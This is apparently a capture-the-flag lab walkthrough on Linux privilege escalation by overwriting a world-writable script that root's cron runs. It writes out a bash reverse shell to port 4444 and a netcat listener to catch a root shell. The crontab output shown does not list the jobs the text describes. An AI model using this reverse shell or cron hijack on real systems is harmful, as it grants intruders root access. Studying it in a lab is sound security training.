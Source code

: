 View the contents of the system-wide crontab:

`cat /etc/crontab`

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

**Remember to exit out of the root shell and remove the reverse shell code before continuing!**

```
kali@kali:~/CTFs/tryhackme/Linux PrivEsc$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```